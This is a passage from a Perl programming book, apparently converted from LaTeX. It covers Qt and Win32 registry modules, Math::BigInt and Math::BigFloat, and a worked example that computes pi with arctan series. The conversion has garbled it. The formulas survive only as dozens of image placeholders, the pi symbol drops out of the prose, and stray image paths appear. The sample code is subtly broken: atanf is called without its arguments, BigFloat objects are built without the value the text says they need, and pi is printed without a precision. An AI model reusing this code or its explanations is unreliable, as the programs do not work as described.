\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=87.0mm, height=87.5mm, viewport=3mm 4mm 205mm 292mm]{image29.ps}Perl/Qt

\noindent 

\noindent Qt is yet another Linux widget library, designed by TrollTech systems (http://www.troll.no/). It's the widget set used in the K Desktop Environment (http://www.kde.org/). The Qt module on CPAN provides you with bindings for this.

\noindent 

\noindent 

\noindent Perl Win32 Module

\noindent 

\noindent If you have the Microsoft Windows SDK available on your computer, you can use Perl to create real graphical Windows applications. As well as this, the Win32 modules allow you to get at a whole host of Windows-specific things. For instance, Win32::TieRegistry allows you to manipulate the Windows registry as a Perl hash, allowing you to say:

\noindent 

\noindent use Win32::TieRegistry( Delimiter=$>$"/" );

\noindent 

\noindent \$tips= \$Registry-$>$\{"LMachine/Software/Microsoft/"\}-$>$

\noindent \{"Windows/CurrentVersion/Explorer/Tips/"\}

\noindent or  die "Can't find the Windows tips\textbackslash n";

\noindent 

\noindent \$tips\{'/186'\}= "Be very careful when making changes to the Registry!";

\noindent 

\noindent in order to add a new tip to Windows Explorer, CPAN has a whole directory of Win32 modules.

\noindent 

\noindent 

\noindent Perl Math

\noindent If computer programming is all about numbers, then why, you might ask, have we not provided any coverage of mathematics? Well, you don't have to be numerically inclined to use Perl, after all, it was originally designed for shuffling text. On the other hand, you may have gathered by now that it's grown somewhat beyond its original goals. We can also do a lot of mathematical processing in Perl as well.

\noindent 

\noindent BigInt and BigFloat

\noindent Right at the beginning of the book, we learned that Perl's numbers were only 32 bits wide (or 64 bits if you've got the appropriate hardware). This means that we can only store numbers up to 2147483647 in integer format, and after that, we go over to floating-point and start losing precision. Now, this isn't something that's going to affect most operations we need to perform on a day-to-day basis, but there are some applications where this is important. What can we do about this?

\noindent 

\noindent The standard modules Math::BigInt and Math::BigFloat provide us with a way around this limitation. While we can't change the fact that a number is only 32 bits wide, we can stack up as many sets of 32 bits as we want to represent our data. The two modules do just this: They dynamically stack together 32 bit numbers to make a big number, wide enough to fit in our data. This means that we can have integers as big as we like, and have floating-point numbers as accurate as we like.

\noindent 

\noindent Simple use of the modules is straightforward. Just use the required module and then say:

\noindent 

\noindent my \$bignum = Math::BigInt-$>$new;

\noindent 

\noindent As you'll have guessed from what we saw of OO in Chapter 11, this constructs a new Math::BigInt object. The same can be done easily enough with the module Math::BigFloat (remember that we must give it the value 1). Now our math processing has suddenly got much more accurate:

\noindent 

\noindent \#/usr/bin/perl

\noindent \# bigfloat.plx

\noindent use strict;

\noindent use warnings;

\noindent 

\noindent 

\noindent use Math::BigFloat;

\noindent 

\noindent my \$bignum = Math::BigFloat-$>$new;

\noindent print "Without BigFloat : ", 1/3, "\textbackslash n";

\noindent print "With BigFloat : ", \$bignum/3, "\textbackslash n";

\noindent 

\noindent This should give you something like this:

\noindent 

\noindent $>$\textbf{perl bigfloat.plx}

\noindent Without BigFloat : 0.333333333333333

\noindent With BigFloat : .3333333333333333333333333333333333333333

\noindent $>$

\noindent 

\noindent Notice that we didn't need to use any special functions to do the division. We could use the method

\noindent \$bignum-$>$fdiv, like this:

\noindent 

\noindent print "With BigFloat : ", \$bignum-$>$fdiv, "\textbackslash n";

\noindent 

\noindent However, Math::BigFloat and Math::BigInt \textbf{overload }the mathematical operators to automatically call the methods. In other words, they give the operators different functionality when

\noindent dealing with objects of that type, so that they behave exactly the same with BigFloat and BigInt as they do with Perl's internal number formats.

\noindent 

\noindent We can show a few more of the features of these modules by trying something practical.

\noindent 

\noindent Try It Out : Calculating Pi

\noindent The magical number pi (), the ratio of a circle's circumference to its diameter, has fascinated mathematicians throughout the ages. We saw some of Max Cohen's deliberations on the number at the start of Chapter 5. People have spent their entire lives working out more and more decimal places of  -- looking for patterns. Now we have powerful computers to do this for us, let's use Perl to calculate .

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=6.6mm, height=4.2mm, viewport=3mm 4mm 205mm 292mm]{image30.ps}The knowledge we need is that pi can be determined by the formula:

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image31.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image32.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=4.8mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image33.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image34.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image35.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=4.8mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image36.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.4mm, height=4.2mm, viewport=3mm 4mm 205mm 292mm]{image37.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image38.ps}

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.1mm, height=1.1mm, viewport=3mm 4mm 205mm 292mm]{image39.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image40.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.6mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image41.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image42.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image43.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image44.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image45.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.4mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image46.ps}

\noindent 

\noindent 

\noindent If you've not come across this little bit of math-trivia before, you can think of it as just one of those magical things in mathematics that you have to take on trust. Here's another one:

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image47.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image48.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image49.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.9mm, height=3.7mm, viewport=3mm 4mm 205mm 292mm]{image50.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=16.1mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image51.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image52.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.6mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image53.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image54.ps}

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image55.ps}

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image56.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=4.8mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image57.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image58.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=4.5mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image59.ps}

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image60.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=10.6mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image61.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.6mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image62.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.6mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image63.ps}

\noindent 

\noindent That's called the Taylor series. That series keeps going for as long as we want. It provides us with a better and better approximation to  -- so long as we can make our calculations accurately. Using Math::BigFloat, we can:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# pi.plx

\noindent use Math::BigFloat;

\noindent 

\noindent 

\noindent sub atanf \{

\noindent my \$x=shift;

\noindent my \$xsquared= \$x*\$x;

\noindent my \$result = Math::BigFloat-$>$new("1");

\noindent my \$delta = Math::BigFloat-$>$new("1");

\noindent for (1..\$Math::BigFloat::div\_scale*2) \{\$delta/=10;\}

\noindent \$result/=\$x;

\noindent my \$divisor=1;

\noindent my \$term=\$result;

\noindent while (\$term$>$\$delta) \{

\noindent \$divisor+=2; \$term/=\$xsquared; \$result -= \$term/\$divisor;

\noindent \$divisor+=2; \$term/=\$xsquared; \$result += \$term/\$divisor;

\noindent \}

\noindent return \$result;

\noindent \}

\noindent 

\noindent sub pi \{

\noindent my \$precision= shift;

\noindent \$Math::BigFloat::div\_scale=\$precision;

\noindent my \$a = atanf*16-4*atanf;

\noindent my \$answer = \$a-$>$ffround(-\$precision);

\noindent \$answer=\~{} s/E-\$precision\$//;

\noindent \$answer=\~{} s/\^{}\textbackslash +3/3./;

\noindent \$answer;

\noindent \}

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.4mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image64.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image65.ps}print pi;

\noindent 

\noindent Moreover, when we run this, we should, after a little calculation, get the first 400 digits of pi:.

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image66.ps}$>$\textbf{perl pi.plx}

\[3.1415926535897932384626433832795028841971693993751058209749445923078164062862089\] 

\[986280348253421170679821480865132823066470938446095505822317253594081284811174502\] 

\[841027019385211055596446229489549303819644288109756659334461284756482337867831652\] 

\[712019091456485669234603486104543266482133936072602491412737245870066063155881748\] 

\[815209209628292540917153643678925903600113305305488204665213841469519415116079\] 
$>$

\noindent 

\noindent \textit{How It Works}

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=3.7mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image67.ps}Well, we're obliged to include a \textit{How It Works }for you now, but frankly I'd understand if you decide to just take it on trust in this case. For those who really want to know, here's how it's done:

\noindent 

\noindent Instead of trying to compute those arctans of 1/5 and 1/239 directly, we calculate arctan of 1/x, split it into pairs (one minus, one plus) and have this identity:

\noindent 

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.4mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image68.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.4mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image69.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.4mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image70.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image71.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=9.0mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image72.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.6mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image73.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image74.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image75.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=4.8mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image76.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=2.1mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image77.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image78.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image79.ps}

\noindent \includegraphics[bb=0mm 0mm 208mm 296mm, width=5.6mm, height=1.1mm, viewport=3mm 4mm 205mm 292mm]{image80.ps}

